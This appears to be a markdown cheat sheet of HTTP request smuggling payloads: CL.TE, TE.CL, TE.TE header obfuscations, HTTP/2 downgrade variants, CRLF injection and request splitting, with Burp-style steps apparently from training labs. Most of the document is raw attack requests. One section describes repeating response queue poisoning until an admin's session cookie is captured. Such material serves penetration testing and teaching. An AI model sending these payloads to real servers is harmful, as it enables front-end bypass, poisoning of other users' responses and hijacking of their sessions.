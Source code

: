 # Request Smuggling

## Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked

a
b
```

## Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100
Transfer-Encoding: chunked

0

x
```

## CL.TE vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

## TE.CL vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-length: 4
Transfer-Encoding: chunked

2b
GPOST / HTTP/1.1
Content-Length: 15

x=1
0
\r\n
\r\n
```

## TE.TE behavior: obfuscating the TE header
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## Finding H2.CL vulnerabilities using 404 techniques
```
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## Finding H2.TE vulnerabilities using 404 techniques
```
POST / HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## Response queue poisoning via H2.TE request smuggling
```
POST /x HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: vulnerable-website.com
\r\n
\r\n
```
Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.

## HTTP/2 request smuggling via CRLF injection
1. Send the most recent POST / request to Burp Repeater and remove your session cookie before resending the request.
2. Expand the Inspector's Request Attributes section and change the protocol to HTTP/2.
3. Using the Inspector, add an arbitrary header to the request. Append the sequence \r\n to the header's value, followed by the Transfer-Encoding: chunked header:

__Name__
```
foo
```
__Value__
```
bar\r\n
Transfer-Encoding: chunked
```

4. In the body, attempt to smuggle an arbitrary prefix as follows:
```
0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## HTTP/2 request splitting via CRLF injection
<tbody>
                <tr>
                    <td class="tg-http2name">:method</td>
                    <td class="tg-http2value">GET</td>
                </tr>
                <tr>
                    <td class="tg-http2name">:path</td>
                    <td class="tg-http2value">/</td>
                </tr>
                <tr>
                    <td class="tg-http2name">:authority</td>
                    <td class="tg-http2value">vulnerable-website.com</td>
                </tr>
                <tr>
                    <td class="tg-http2name">foo</td>
                    <td class="tg-http2value"><p class="pre-wrap">bar<span class="grey">\r\n</span>
Host: vulnerable-website.com<span class="grey">\r\n</span>
<span class="grey">\r\n</span>
GET /admin HTTP/1.1</p>
                    </td>
                </tr>
                </tbody>
